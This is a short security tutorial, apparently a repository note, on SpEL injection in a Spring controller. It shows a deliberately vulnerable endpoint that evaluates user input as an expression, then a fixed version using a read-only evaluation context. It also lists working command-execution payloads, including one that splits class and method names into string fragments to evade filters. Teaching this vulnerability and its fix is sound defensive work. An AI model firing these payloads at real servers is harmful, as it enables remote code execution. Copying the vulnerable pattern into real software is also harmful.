


# SPEL



```java
package com.example.controller;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

@RestController
public class SpelController {
    @GetMapping("/spel")
    public String spelInjection(@RequestParam String input) {
        ExpressionParser expressionParser = new SpelExpressionParser();
        Expression expression = expressionParser.parseExpression(input);
        Object object = expression.getValue();
        return object.toString();
    }
}
```



payload

```
T(java.lang.Runtime).getRuntime().exec('calc.exe')

new ProcessBuilder("whoami").start()
//可以利用反射来绕过一些过滤
#{''.getClass().forName('java.la'+'ng.Ru'+'ntime').getMethod('ex'+'ec',''.getClass()).invoke(''.getClass().forName('java.la'+'ng.Ru'+'ntime').getMethod('getRu'+'ntime').invoke(null),'calc')}
```




## 修复代码

```Java
package com.example.controller;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.expression.spel.support.SimpleEvaluationContext;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

@RestController
public class SpelController {
    @GetMapping("/spel")
    public String spelInjection(@RequestParam String input) {
        ExpressionParser expressionParser = new SpelExpressionParser();
        SimpleEvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().build();
        Expression expression = expressionParser.parseExpression(input);
        Object object = expression.getValue(context);
        return object.toString();
    }
}
```

